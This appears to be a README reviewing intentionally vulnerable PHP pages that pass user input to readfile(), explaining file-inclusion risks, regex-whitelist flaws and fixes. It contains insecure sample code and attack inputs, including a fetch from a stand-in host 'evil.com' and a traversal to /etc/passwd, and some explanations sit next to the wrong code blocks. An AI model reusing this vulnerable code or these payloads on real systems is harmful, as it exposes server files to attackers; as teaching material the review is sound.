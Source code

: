 # Readme File 

## (Vulnerable Code Review: html-injection-read-file.php)
### Title: Vulnerable Code Review: html-injection-read-file.php

Overview:

This PHP page reads and outputs the content of a file based on a user-supplied filename parameter, introducing a Local File Inclusion (LFI) and Remote File Inclusion (RFI) vulnerability.



      <!DOCTYPE html>
      <html>
      <head>
      <meta charset="utf-8">
      <meta name="viewport" content="width=device-width, initial-scale=1">
      <title>Html Injection Read File</title>
      </head>
      <body>
      <pre>
      <?php
      $filename = $_GET['filename'];
      
      echo readfile($filename);
      ?>
      </pre>
      </body>
      </html>
      
      
      
      
      
      
## html-injection-read-file2.php
      
      
      <!DOCTYPE html>
      <html>
      <head>
      <meta charset="utf-8">
      <meta name="viewport" content="width=device-width, initial-scale=1">
      <title>Html Injection Read File 2</title>
      </head>
      <body>
      
      <h1>Html Injection Read File 2</h1>
      
      <form action="html-injection-read-file2.php" method="POST">
        <label for="cars">Choose a File:</label>
        <select name="filename" id="filename">
          <option value="index.html">Index.html</option>
          <option value="robots.txt">robots.txt</option>
        </select>
        <br><br>
        <input type="submit" name="submit" value="submit">
      </form>
      
      <pre>
      <?php
      if (isset($_POST['submit'])) {
        $filename = $_POST['filename'];
        echo readfile($filename);
      }
      ?>
      </pre>
      
      </body>
      </html>
      
      
      
### Vulnerability Details:

- The filename parameter is passed directly to PHP readfile() without validation or sanitization.

- Allows attacker to:

- Read local files (/etc/passwd, configuration files, source code).

- Read remote files if allow_url_fopen is enabled.

- Can lead to disclosure of sensitive data or server compromise.

### Exploitation Examples:
- Local file read:

               

        ?filename=http://evil.com/malicious.txt

### Security Implications:
Information disclosure

Remote Code Execution (if chained with other vulnerabilities)

Data leakage

### Summary:
The code is highly vulnerable because it allows arbitrary file reading based on untrusted input.
      
      
      <!DOCTYPE html>
      <html>
      <head>
      <meta charset="utf-8">
      <meta name="viewport" content="width=device-width, initial-scale=1">
      <title>Html Injection Read File 3</title>
      </head>
      <body>
      
      <pre>
      <?php
      $filename = $_GET['filename'];
      
      // Regex allows letters, numbers, underscores, slashes, dots, ending with ".txt"
      if (preg_match('/^[a-zA-Z0-9_\/\.]+\.txt$/', $filename)) {
          echo readfile($filename);
      }
      ?>
      </pre>
      
      </body>
      </html>
      
  ### Vulnerability Details:

- File list is restricted to two options (index.html, robots.txt), but value is passed to readfile() without validation.

- Attacker could manipulate POST data to bypass the dropdown.

- Leads to Local File Inclusion or Disclosure.

### Example Attack Vector:

    filename=../../../../etc/passwd

### Security Considerations:
Whitelist filenames on the server side.

Sanitize and validate all input.

Restrict file reads to specific directories.

Avoid raw content output.


      
      
      
      <!DOCTYPE html>
      <html>
      <head>
      <meta charset="utf-8">
      <meta name="viewport" content="width=device-width, initial-scale=1">
      <title>Html Injection Read File 4</title>
      </head>
      <body>
      
      <h1>Html Injection Read File 2</h1>
      
      <form action="html-injection-read-file5.php" method="POST">
        <label for="cars">Choose a File:</label>
        <select name="filename" id="filename">
          <option value="index.html">Index.html</option>
          <option value="robots.txt">robots.txt</option>
        </select>
        <br><br>
        <input type="submit" name="submit" value="submit">
      </form>
      
      <?php
      if (isset($_POST['submit'])) {
          $filename = $_POST['filename'];
      
          if ($filename == "index.html" || $filename == "robots.txt") {
              echo readfile($filename);
          } else {
              echo "Error";
          }
      }
      ?>
      
      </body>
      </html>
      
      Whitelist Approach:


      $files = ['index.html', 'robots.txt'];
      preg_grep("/$filename/i", $files);

### Subtle Issues:

- Regex Injection Risk: $filename used directly in regex.

- Case-insensitive: Good, but can match unintended inputs.

- Partial Matching: Can match unintended values.

## Demonstration:


    preg_grep("/index.html/i", $files);  // Matches "index.html"
    preg_grep("/index/i", $files);       // Also matches "index.html"

## Potential Improvements:
- Escape regex characters:


        $escaped = preg_quote($filename, '/');
        if (preg_grep("/^$escaped$/i", $files)) { ... }

- Use exact matching.

- Add server-side validation.

### Summary:
Whitelist mechanism tries to restrict access.

- preg_grep() with unescaped input → regex injection risk.

- An attacker could bypass whitelist.

- Raw readfile($filename) output is unsanitized.

- Manual POST request manipulation can exploit it.

